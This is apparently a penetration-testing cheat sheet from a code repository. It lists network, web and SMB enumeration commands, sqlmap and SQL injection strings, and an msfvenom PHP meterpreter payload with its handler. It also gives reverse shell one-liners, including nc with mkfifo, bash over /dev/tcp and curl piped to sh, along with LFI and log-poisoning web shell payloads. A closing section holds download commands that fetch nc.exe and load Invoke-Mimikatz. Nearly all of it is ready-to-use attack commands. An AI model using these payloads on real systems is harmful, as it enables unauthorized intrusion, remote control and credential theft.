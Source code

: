 WORK IN PROGRESS

# Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

#### Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

#### FFUF
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` 	Directory Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` 	Extension Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/dir/FUZZ.php` 	Page Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` 	Recursive Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.domain.com/` 	Sub-domain Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://domain.htb:PORT/ -H 'Host: FUZZ.domain.com' -fs xxx` 	VHost Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php?FUZZ=key -fs xxx` 	Parameter Fuzzing - GET
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` 	Parameter Fuzzing - POST
- `ffuf -w ids.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT 9998`
- `run`

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

###### Web enumeration

LFI
- `http://10.0.0.1/?page=index.php`
- `http://10.0.0.1/?page=../../../etc/passwd`
- `http://10.0.0.1/?page=php://filter/convert.base64-encode/resource=index.php`

Log injection 
- change user agent
- `<?php system($_GET['cmd']); ?>`
- `http://10.0.0.1/?page=../../../var/apache2/access.log?cmd=wget%20http://IP:PORT/shell.php`
- `expect://id`
- `curl -s -X POST --data "<?php system('id'); ?>" "http://10.0.0.1:80/index.php?language=php://input"`

###### Download files

- `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
- `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
- `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
- `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
- `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`



